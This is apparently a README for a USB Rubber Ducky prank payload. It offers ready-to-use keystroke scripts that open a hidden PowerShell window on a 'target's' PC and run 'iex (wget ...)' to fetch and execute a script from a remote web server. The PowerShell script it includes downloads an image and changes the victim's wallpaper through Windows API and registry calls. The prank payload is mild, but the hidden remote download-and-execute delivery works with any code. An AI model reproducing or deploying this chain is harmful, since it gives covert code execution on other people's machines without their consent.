 Pre-written and execution-ready code:

If you do not have access to a web server and want to get this running, here is pre-uploaded code. Code is at [this gist](https://gist.github.com/judge2020/034d6201d6b24f079e0d692bea3e92b0) containing the PS code, and the image is hosted on GitHub directly.

By default, it goes to an My Little Pony image, however you can set the 'image' GET parameter to change it at will. Eg change `https://judge.sh/wallpaper.php` to `https://judge.sh/wallpaper.php?image=https://imgur.com/test.png`.
```
SLEEP 1000
GUI r
DELAY 250
STRING powershell -windowstyle hidden iex (wget https://judge.sh/wallpaper.php)
ENTER
```


Below is original text
---


GET THE CODE SNIPS HERE:

https://lostserver.com/static/rubberduckcode.txt

It will set the background image on a targets pc to whatever jpg you want - i recommend mylittleponys :) 

Regards Keld Norman@DK

Write this code to your Rubber Ducky payload file using the encoder, the wget is an alias that exist in powershell already: 
---------------------------------------------------------------------
```
SLEEP 600
GUI r
DELAY 150
STRING powershell -windowstyle hidden iex (wget http://your-website.com/powershellscript.ps)
ENTER
```
The Powershell script on your webserver (http://your-website.com/powershellscript.ps):
---------------------------------------------------------------------
```
(new-object System.Net.WebClient).DownloadFile('http://your-website.com/mylittlepony.jpg',"$Env:Temp\\b.jpg");
Add-Type @"
using System;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace Wallpaper
{
 public enum Style : int
{
    Tile, Center, Stretch, NoChange
 }
 public class Setter {
  public const int SetDesktopWallpaper = 20;
  public const int UpdateIniFile = 0x01;
  public const int SendWinIniChange = 0x02;
  [DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
  private static extern int SystemParametersInfo (int uAction, int uParam, string lpvParam, int fuWinIni);
  public static void SetWallpaper ( string path, Wallpaper.Style style ) {
     SystemParametersInfo( SetDesktopWallpaper, 0, path, UpdateIniFile | SendWinIniChange );
     RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\\\Desktop", true);
     switch( style )
     {
        case Style.Stretch :
           key.SetValue(@"WallpaperStyle", "2") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Center :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Tile :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "1") ;
           break;
        case Style.NoChange :
           break;
     
     key.Close();
      }
    }
}
"@
[Wallpaper.Setter]::SetWallpaper("$Env:Temp\b.jpg" , 2 )
```

